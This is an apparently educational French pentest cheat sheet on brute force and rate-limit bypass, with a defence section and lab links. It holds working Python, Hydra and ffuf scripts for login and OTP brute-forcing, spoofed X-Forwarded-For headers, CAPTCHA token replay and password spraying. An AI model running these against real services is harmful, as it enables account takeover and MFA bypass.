

# 🔨 Brute Force & Rate Limit Bypass

> [!info] **En 1 phrase**
> La brute force = deviner des identifiants/tokens en testant un grand volume de valeurs ;
> le bypass de rate limit consiste à **contourner les mécanismes anti-automatisation**
> (limites d'IP, CAPTCHA, lockout) pour pouvoir envoyer ces milliers de requêtes sans être bloqué.
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Brute%20Force/README.md)**

---

## 🎯 Concept



> [!info] 💡 **Pourquoi la brute force est bloquée**
> L'app limite **le nombre de tentatives** (par IP, par compte, par heure) et ralentit/verrouille
> au-delà. Elle ajoute des **CAPTCHA** pour bloquer les bots et des **WAF** pour détecter le rythme
> anormal. Le but de l'attaquant = rester **sous le radar** ou **masquer son volume** réel.

---

## 🎯 Endpoints concernés

| Endpoint | Cible | Risque |
|---|---|---|
| **Login** (form, JSON, GraphQL) | mots de passe / usernames | ATO |
| **OTP / 2FA / MFA** (email, SMS, TOTP) | codes 4-8 chiffres → itérable en 10^k | bypass MFA |
| **Reset de mot de passe** (token, code) | tokens courts / devinables | prise de compte |
| **Coupons / gift cards / promo codes** | codes alphanumériques | fraude |
| **API** (endpoints d'auth, rate limit faible) | clés, sessions, tokens | accès non autorisé |
| **Enregistrement** (username déjà pris) | énumération de comptes | prelude à un spray |

> [!tip] 💡 Les **codes OTP de 4-6 chiffres** sont les meilleures cibles : seulement `10⁴` à `10⁶`
> combinaisons, souvent pas de verrouillage, et réutilisables si le code reste valide 30-60 s.

---

## 🧊 Bypass de rate limit / CAPTCHA

### En-têtes d'IP (X-Forwarded-For & co)

> Quand l'app (ou le reverse proxy) déduit l'IP du client depuis un **header contrôlable**, on peut
> changer d'IP à chaque requête et réinitialiser le compteur de rate limit.

```http
GET /login HTTP/1.1
Host: target.tld
X-Forwarded-For: 1.2.3.4        X-Real-IP: 1.2.3.4
X-Client-IP: 1.2.3.4            X-Originating-IP: 1.2.3.4
X-Remote-IP: 1.2.3.4            X-Remote-Addr: 1.2.3.4
X-Host: 1.2.3.4                 X-Forwarded-Host: 1.2.3.4
True-Client-IP: 1.2.3.4         CF-Connecting-IP: 1.2.3.4
Forwarded: for=1.2.3.4;by=1.2.3.4
```

> [!tip] 💡 **Variantes à tester à chaque requête** : `127.0.0.1` (souvent **whitelisté** par le rate
> limiter !), `X-Forwarded-For: 127.0.0.1`, une IP **de la plage interne** (`10.x`, `192.168.x`,
> `172.16-31.x`) ou l'IP **du reverse proxy** lui-même.

### Manipulation des paramètres

```http
# Casse des paramètres — le rate limiter est-il sensible à la casse ?
POST /login
username=admin&password=xxxx
USERNAME=admin&PASSWORD=xxxx
Username=admin&Password=xxxx
uSeRnAmE=admin&pAsSwOrD=xxxx

# Paramètres dupliqués — lequel est pris par l'app vs le limiter ?
POST /login
username=admin&username=admin&password=xxxx&password=xxxx

# Paramètre dummy ajouté / doublon dans le JSON
POST /login
username=admin&password=xxxx&auth=0
{"username":"admin","password":"xxxx","username":"admin"}
```

> [!warning] ⚠️ Tester la **liste des noms de paramètres** (`username`, `passwd`, `password`, `pwd`,
> `login`, `user_login`, `loginname`…) : si le limiter ne compte que le champ `username` mais que
> l'app accepte `user_login`, on **alterne les noms** et on n'atteint jamais la limite.

### Cookies & sessions

```http
POST /login HTTP/1.1
Cookie: PHPSESSID=<nouveau cookie à chaque tentative>
```

> [!info] 💡 Le rate limit est souvent lié à la **session** (cookie `sessionid`, `JWT`, token CSRF).
> **Nouveau cookie / nouvelle session à chaque requête** = nouveau compteur. Le token CSRF peut être
> **réutilisé** ou **régénéré** : à tester. Un JWT faible (`none`, `HS256`) peut être **forgé** →
> voir [[Attaques JWT|🔐 Attaques JWT]].

### User-Agent & fingerprinting

```bash
# Rotation des User-Agent à chaque tentative (Burp Intruder / ffuf)
curl -s -A "Mozilla/5.0 (Windows NT 10.0; Win64; x64) Gecko/20100101 Firefox/120.0" https://target.tld/login ...
curl -s -A "Mozilla/5.0 (iPhone; CPU iPhone OS 17_0 like Mac OS X) Mobile/15E148" https://target.tld/login ...
curl -s -A "curl/8.0.1" https://target.tld/login ...
```

> [!warning] ⚠️ Certains WAF **fingerprintent le TLS** (hash **JA3**) au lieu du User-Agent : changer
> le UA ne suffit pas. Contournements : `curl-impersonate` (spoof Chrome/Firefox au niveau TLS),
> Puppeteer/Playwright, plugins de randomisation JA3.

### Encodage des requêtes

```http
# Nul byte (%00) pour court-circuiter le parsing
POST /login HTTP/1.1
username=admin%00&password=xxxx

# Unicode / encodages multiples
username=%61dmin    # 'a' URL-encodé
username=%u0061dmin # encodage unicode
username=adm%69n    # 'i' encodé
username=&#97;dmin  # HTML / double encodage
```

> [!tip] 💡 Si le WAF détecte `password=` ou les mots-clés, encodage double / **HTTP Pipelining**
> (plusieurs requêtes sur la même connexion TCP **sans attendre les réponses**) permettent de passer
> sous le radar d'un limiter qui compte les connexions plutôt que les requêtes.

### HTTP method & fragmentation

```http
# POST bloqué ? passer en GET (si l'app accepte)
GET /login?username=admin&password=xxxx HTTP/1.1

# PATCH / PUT / OPTIONS à la place de POST
PATCH /login HTTP/1.1
Content-Type: application/json
{"username":"admin","password":"xxxx"}

# Chunked transfer encoding (fragmentation du body)
POST /login HTTP/1.1
Transfer-Encoding: chunked
5
admi
4
n&pa
7
ssword
9
=xxxxx
0

# Requête split en 2 (si l'app concatène le buffer)
POST /login
username=ad        # req 1
POST /login
min&password=xxxx  # req 2 → complète
```

> [!warning] ⚠️ La **fragmentation** dépend du parsing de l'app/reverse proxy : tester en vrai,
> ça ne marche que si le backend **reconstitue** la requête après le WAF/limiter.

---

## 🛡️ Bypass des WAF

### Timing & rythme

```bash
# Réduire la cadence sous le seuil de détection (rate = req/s max)
ffuf -w passwords.txt -u https://target.tld/login -X POST -d "user=admin&pass=FUZZ" -t 1 -rate 5

# Respecter la fenêtre glissante : pause entre chaque tentative
for w in $(cat passwords.txt); do
  curl -s -X POST https://target.tld/login -d "user=admin&pass=$w" -o /dev/null -w "%{http_code}\n"
  sleep 3
done
```

### Rotation d'IP (IPv4 / IPv6)

```bash
# IPv4 : chaînes de proxys (proxychains + random_chain, une seule chaîne)
proxychains ffuf -w wordlist.txt -u https://target.tld/FUZZ
# proxychains.conf :
#   random_chain
#   chain_len = 1
#   [ProxyList]
#   socks5  127.0.0.1 1080
#   socks5  192.168.1.50 1080
#   http    proxy1.example.com 8080
#   http    proxy2.example.com 8080

# IPv6 : blocs /64 chez Vultr & co = 18 446 744 073 709 551 616 adresses → rotation massive
# Outil : ddd/gpb (bruteforce numéro de téléphone Google en rotant les IPv6)
# Multi-cloud : OmniProx (FireProx-like pour GCP/Azure/Alibaba/CloudFlare)
```

### TLS / JA3

> [!info] 💡 Le hash **JA3** (Client Hello TLS) identifie le client même avec un User-Agent fake.
> JA3 connus et **bloquables** : Burp `53d67b2a806147a7d1d5df74b54dd049` /
> `62f6a6727fda5a1104d5b147cd82e520`, Tor `e7d705a3286e19ea42f587b344ee6865`.

```bash
# Spoof le stack TLS d'un vrai navigateur
git clone https://github.com/lwthiker/curl-impersonate
./curl_chrome https://target.tld/login -X POST -d "user=admin&pass=xxxx"
```

> **Contre-mesures côté attaquant** : automation navigateur (Puppeteer/Playwright),
> curl-impersonate, plugins de randomisation JA3.

---

## ⚡ Attaques : bruteforce login / OTP

### Wordlists

```bash
# Mots de passe / usernames
/usr/share/wordlists/rockyou.txt
/usr/share/seclists/Passwords/Common-Credentials/*.txt
/usr/share/seclists/Usernames/*.txt

# OTP / PIN : génération itérative
seq -w 0000 9999 > otp4.txt
seq -w 000000 999999 > otp6.txt
```

### Python (requests) — login bruteforce

```py
import requests

url = "https://target.tld/login"
passwords = open("rockyou.txt", errors="ignore").read().splitlines()

for i, pw in enumerate(passwords):
    # rotation d'IP via header contrôlé
    ip = f"{i % 254 + 1}.{i % 200}.{i % 254}.{i % 254}"
    r = requests.post(url, data={"username": "admin", "password": pw},
                      headers={"X-Forwarded-For": ip})
    if r.status_code == 302 or "Bienvenue" in r.text:
        print(f"[+] {pw}"); break
    # nouvelle session à chaque tentative (si le limiter est lié à la session)
```

### Python (requests) — OTP bruteforce

```py
import requests

for code in range(100000):
    r = requests.post("https://target.tld/verify-otp",
                      data={"email": "victim@mail.com", "otp": f"{code:06d}"},
                      headers={"X-Forwarded-For": f"10.0.{code%256}.{code>>8 & 255}"})
    if r.status_code == 200 and "Success" in r.text:
        print(f"[+] OTP : {code:06d}"); break
    if code % 100 == 0:
        print(f"[*] {code}/100000")
```

### Hydra

```bash
# Login form
hydra -l admin -P rockyou.txt target.tld http-post-form \
  "/login:username=^USER^&password=^PASS^:F=Invalid credentials"

# Login + IP rotation via proxy socks5
hydra -l admin -P rockyou.txt -s 443 -S target.tld http-post-form \
  "/login:user=^USER^&pass=^PASS^:Invalid" -o hydra.txt

# OTP 4 chiffres sur une API JSON
hydra -l victim@mail.com -P otp4.txt target.tld http-post-form \
  "/api/verify:{\"email\":\"^USER^\",\"otp\":\"^PASS^\"}:H=Content-Type: application/json:F=Invalid"

# Autres services
hydra -l root -P rockyou.txt target.tld ssh
```

### Burp Intruder

> [!tip] 💡 **Config type** : Position sur `password=§xxxx§` → Payload set = wordlist →
> `Resource pool` → 1 requête / delay (500-1000 ms) pour rester discret → `Grep-Match` sur
> `Invalid credentials` / `Too many attempts` / `Please wait`.

| Type d'attaque | Fonctionnement | Usage |
|---|---|---|
| **Sniper** | 1 position, 1 set de payloads | brute force simple d'un paramètre |
| **Battering ram** | le même payload sur toutes les positions | user=pass identiques |
| **Pitchfork** | nᵉ ligne de chaque set → 1 requête (parallèle) | paires user/pass pré-calculées |
| **Cluster bomb** | toutes les combinaisons de plusieurs sets | user × pass (volumineux !) |

```http
# Exemple — positions sur username et password (Cluster bomb)
POST /login HTTP/1.1
Host: target.tld
X-Forwarded-For: 127.0.0.1

username=§admin§&password=§P@ssw0rd§
```

### ffuf (bruteforce + fuzzing)

```bash
# Login bruteforce multi-wordlists + rotation d'IP (header FUZZ)
ffuf -w usernames.txt:USER -w passwords.txt:PASS \
     -u https://target.tld/login \
     -X POST -d "username=USER&password=PASS" \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -H "X-Forwarded-For: FUZZ" -w ipv4-list.txt:FUZZ \
     -mc all

# Fuzzing d'endpoints / de paramètres
ffuf -w wordlist.txt -u https://target.tld/FUZZ -mc 200,301,302,403
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt \
     -u "https://target.tld/login?FUZZ=1" -fs <taille_baseline>

# Filtrer les réponses non pertinentes (-fs = filtre par taille)
ffuf -w rockyou.txt -u https://target.tld/login -X POST \
     -d "user=admin&pass=FUZZ" -H "X-Forwarded-For: 127.0.0.1" \
     -fs <taille_réponse_erreur> -t 4
```

### Variantes de messages d'erreur (énumération de comptes)

```http
# Réponse identique = pas d'énumération ; différente = le compte existe
Login failed                  # user inexistant OU mauvais mdp → réponse unique
Invalid password              # → le username existe !
Account locked
Too many requests. Try again in 30 minutes.

# Statuts HTTP différents
401 Unauthorized  → login form standard
404               → endpoint inexistant
302 + set-cookie  → succès ! suivre le cookie de session
```

> [!warning] ⚠️ Des messages d'erreur **distincts** (`Invalid username` vs `Invalid password`)
> révèlent l'existence d'un compte → c'est le **prérequis d'un password spraying** ciblé.

---

## 🤖 CAPTCHA / reCAPTCHA

### Bypass

| Technique | Description |
|---|---|
| **Rejouer la réponse** | Intercepter le jeton valide (`g-recaptcha-response`) et le **réutiliser** sur plusieurs requêtes si le site ne l'invalide pas après usage. |
| **Analyse d'image** | OCR (`tesseract`), résolution automatique de puzzles (images glissées, rotations). |
| **Services anti-CAPTCHA** | API payantes de résolution temps réel (2captcha, anti-captcha, DeathByCaptcha…) — le résolveur humain renvoie le token. |
| **Supprimer le champ** | La vérification n'a lieu que si le CAPTCHA est présent → retirer le champ, passer par un autre flow, ou appeler directement l'API de vérification. |
| **Bypass serveur** | Le champ `captcha` vérifié mais optionnel / ignoré si vide ou si un header spécial (`X-Captcha-Token`) est accepté. |

```py
import requests

# Réutiliser une réponse CAPTCHA capturée (jeton Google valide ~2 min)
r = requests.post("https://target.tld/login", data={
    "username": "admin", "password": pw,
    "g-recaptcha-response": CAPTCHA_TOKEN_CAPTURE,
})
```

> [!warning] ⚠️ Un CAPTCHA généré **côté client** (token dans le HTML, réponse calculable) ou à
> vérification **asynchrone/débrayable** = pas de réelle protection. Toujours tester le flow **sans**
> le champ CAPTCHA.

---

## 👥 Rate limit compte vs IP (spraying)

> [!info] 💡 Deux modèles de rate limit :
> - **Par IP** : N tentatives / IP / fenêtre → contourné par rotation d'IP (headers, proxy).
> - **Par compte** : N tentatives / **username** / fenêtre → contourné en **spraying**
>   (1 seul mot de passe pour beaucoup de comptes) → voir [[Password Spraying|🧂 Password Spraying]].

```bash
# Spraying : 1 mdp / beaucoup de comptes (sous le seuil par compte)
ffuf -w usernames.txt:USER -u https://target.tld/login -X POST \
     -d "username=USER&password=Winter2024!" \
     -H "X-Forwarded-For: 127.0.0.1" -mc all -fs <taille_erreur>

hydra -L usernames.txt -p "Spring2025!" target.tld http-post-form \
  "/login:username=^USER^&password=^PASS^:Invalid"
```

> [!tip] 💡 Le **spraying** reste sous les limites *par compte* (1 tentative/compte) et *par IP*
> (peu de requêtes) : la technique la plus furtive. Enchaîne sur [[Account Takeover|👤 ATO]] une fois
> un compte valide obtenu, et sur [[IDOR|🎯 IDOR]] pour basculer de compte.

---

## 🧰 Outils

| Outil | Usage |
|---|---|
| **Hydra** | bruteforce login/http-post-form, SSH, FTP… |
| **Burp Intruder** | 4 modes (Sniper, Battering ram, Pitchfork, Cluster bomb), macros, Grep-Match |
| **ffuf** | fuzzing Go très rapide, multi-wordlists (USER/PASS/FUZZ), rate limit, filtrage taille |
| **Truffle** | bruteforce / reconnaissance de sous-domaines (compatible rotation) |
| **Proxychains** | rotation IP via chaînes de proxys (random_chain) |
| **OmniProx** | rotation d'IP multi-cloud (GCP/Azure/Alibaba/CloudFlare) |
| **ddd/gpb** | bruteforce IPv6 rotatif (ex: numéros de téléphone Google) |
| **curl-impersonate** | spoof du stack TLS (JA3) Chrome/Firefox |
| **Puppeteer / Playwright** | automation navigateur réelle (CAPTCHA, JA3) |
| **Requests (Python)** | scripts custom de bruteforce / OTP avec gestion fine des headers |
| **Tesseract** | OCR pour CAPTCHA images simples |

---

## 🔍 Détection & Défense

| Défense | Détail |
|---|---|
| **Rate limit IP** | seuil par IP + fenêtre glissante ; **ne jamais faire confiance à `X-Forwarded-For`** non validé |
| **Rate limit compte** | seuil par username → bloque même avec des IP rotatives |
| **Rate limit géographique** | alerte/blocage si un même compte est tenté depuis des zones différentes |
| **CAPTCHA / reCAPTCHA** | après N échecs, vérifier le jeton **côté serveur** et l'invalider après usage |
| **Aléatoire dans les réponses** | messages d'erreur **identiques** (`Invalid credentials`) + délai aléatoire → empêche l'énumération |
| **Account lockout progressif** | lock temporaire (30 s → 5 min → 1 h) **sans** blocage définitif (évite le DoS volontaire) |
| **TLS / JA3** | bloquer les stacks TLS connus (Burp, Tor) en complément du User-Agent |
| **Monitoring** | alertes : volume de 401, spike sur un endpoint, même IP multi-comptes, tâches temporelles |
| **CSRF tokens** | liés à la session + régénérés → ralentit le bruteforce |
| **2FA / MFA** | rend le bruteforce du mot de passe seul inutile |

> [!warning] ⚠️ **Lockout trop agressif = faille DoS** : un attaquant peut verrouiller volontairement
> tous les comptes (`lockout`, `reset`). Préférer des lockouts courts + CAPTCHA plutôt qu'un blocage long.

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Ordre logique d'attaque**
> 1. **Identifier la limite** : envoyer des requêtes jusqu'à observer `429 / 403 / Too many requests` → on connaît le seuil et la fenêtre.
> 2. **Identifier la clé** du limiter : IP ? session ? compte ? paramètre ?
> 3. **Choisir le bypass** : header IP (test rapide) → rotation paramètres/sessions → proxy/IPv6 → WAF/JA3.
> 4. **Rester furtif** : `-t 1`, `-rate` faible, pauses, jamais d'attaque en parallèle massif.
> 5. **Confirmer** le succès sur un déclencheur fiable (302, set-cookie, message distinctif).

> [!warning] ⚠️ **Pièges**
> - Les **messages d'erreur distincts** (`Invalid username` / `Invalid password`) trahissent l'existence d'un compte : vulnérabilité d'énumération.
> - `X-Forwarded-For` ne marche que si le limiter **fait confiance au header** ; un reverse proxy propre l'écrase → vérifier l'effet réel.
> - **Connaître la réponse d'échec avant de lancer** la wordlist (filtres `-fs` / `-fc`).
> - **Jamais de bruteforce parallèle massif** sur des endpoints qui lock (verrouillage cible, traces WAF, alerte SOC).
> - Les **codes OTP** sont sensibles aux *race conditions* et au **rejeu** (code consommé → re-tester).
> - Un CAPTCHA résolu une fois peut être **réutilisé** ; les services de résolution existent mais coûtent.
> - Un **script dédié** (requests) reste plus fin que hydra pour les flows complexes (JSON, tokens CSRF, OTP).

> [!warning] ⚠️ **Légalité & éthique**
> Le bruteforce sans autorisation écrite = **illégal** (répression de la fraude informatique).
> Toute énumération/bruteforce doit se faire dans un **périmètre autorisé** (bug bounty, contrat,
> lab type PortSwigger) avec un **taux raisonnable** pour ne pas impacter la disponibilité de la cible.

---

## 🧪 Labs & Références

- PortSwigger Web Security Academy — Authentication (brute force, rate limiting, lockout) : https://portswigger.net/web-security/all-labs#authentication
- Root-Me : HTTP — brute force (login, otp) : https://www.root-me.org/
- [PayloadsAllTheThings — Brute Force](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Brute%20Force/README.md)
- [Burp Intruder attack types — PortSwigger](https://portswigger.net/burp/documentation/desktop/tools/intruder/configure-attack/attack-types)
- [Detecting and annoying Burp users — Julien Voisin](https://dustri.org/b/detecting-and-annoying-burp-users.html)
- [OmniProx: Multi-Cloud IP Rotation Made Simple — Andy Gill](https://blog.zsec.uk/omniprox/)
- [Bruteforcing the phone number of any Google user (brutecat)](https://web.archive.org/web/20250609141236/https://brutecat.com/articles/leaking-google-phones)

---

## 🔗 Liens

- [[Password Spraying|🧂 Password Spraying]]
- [[Account Takeover|👤 ATO]]
- [[IDOR|🎯 IDOR]]
- [[Attaques JWT|🔐 Attaques JWT]]
- → Note complète : [[03 - Exploitation Web|🌍 Exploitation Web]]
- 📚 Source : [PayloadsAllTheThings — Brute Force & Rate Limit](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Brute%20Force/README.md)
